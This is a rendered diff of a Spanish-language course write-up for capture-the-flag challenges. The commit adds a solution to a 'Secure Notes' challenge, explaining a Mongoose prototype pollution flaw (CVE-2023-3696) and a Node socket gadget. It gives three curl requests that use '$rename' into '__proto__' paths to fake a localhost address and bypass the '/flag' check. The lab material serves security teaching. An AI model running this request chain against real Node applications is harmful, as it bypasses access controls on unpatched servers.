

Before and after one commit to djedrielle/segu_p2, a Markdown page: documentacion.md, 2 parts joined by grey strips. Shown at 82% size. Drawn GitHub-style; pictures changed too: imagenes/endpoint_flag.png (added), imagenes/endpoint_update.png (added), imagenes/mogoose_version.png (added); blank space fills up the shorter version.

Commit message:
Secure Notes resuelto y documentado

````diff
--- a/documentacion.md
+++ b/documentacion.md
@@ -11,7 +11,7 @@ date: "17 noviembre, 2026"
 | Estudiante            | Djedrielle Alexander - 2024154899   |
 | Estudiante            | Sebastian Donoso - 2024070154       |
 | Profesor              | Dr. Herson Esquivel Vargas          |
-| Puntos acumulados     | 1560 / 2300 XP                      |
+| Puntos acumulados     | 2080 / 2300 XP                      |
 
 ---
 
@@ -1054,0 +1083,31 @@ HTB{W3iRd_RUnT1m3_DEC}
+![endpoint_flag](imagenes/endpoint_flag.png)
+
+![endpoint_update](imagenes/endpoint_update.png)
+
+**Paso 2 — Identificación de la vulnerabilidad**
+
+`/update` pasa `req.body` sin sanear a `findByIdAndUpdate`. Mongoose **7.2.4** es vulnerable a **Prototype Pollution (CVE-2023-3696)**: un documento de actualización con el operador `$rename` cuyo destino contiene `__proto__` contamina `Object.prototype` cuando Mongoose rehidrata el documento.
+
+El *gadget* que convierte esa contaminación en bypass es una propiedad interna de los sockets de Node: `remoteAddress` se obtiene de `socket._getpeername().address`, y `_getpeername()` devuelve `this._peername` **si ya existe** (sin consultar la IP real del socket). Al contaminar `Object.prototype._peername = { address: '127.0.0.1', family: 'IPv4' }`, cualquier socket nuevo hereda esa dirección y el chequeo de `/flag` pasa.
+
+![mogoose_version](imagenes/mogoose_version.png)
+
+**Paso 3 — Explotación**
+
+Cadena de tres peticiones:
+
+1. Crear una nota con los valores a inyectar (dirección y familia):
+```bash
+curl -s http://<HOST>:<PORT>/create -H 'Content-Type: application/json' \
+  -d '{"title":"127.0.0.1","content":"IPv4"}'
+```
+2. Mover esos valores a rutas `__proto__` con `$rename` (dispara la contaminación al releer el documento):
+```bash
+curl -s http://<HOST>:<PORT>/update -H 'Content-Type: application/json' \
+  -d '{"noteId":"<ID>","$rename":{"title":"__proto__._peername.address","content":"__proto__._peername.family"}}'
+```
+3. Pedir la flag en una conexión nueva; el chequeo de localhost ya se evade:
+```bash
+curl -s http://<HOST>:<PORT>/flag
+```
+
````
Also changed, not shown: other parts of documentacion.md (+61 -2 lines), imagenes/secure_notes_flag.png (added), 9 other files.
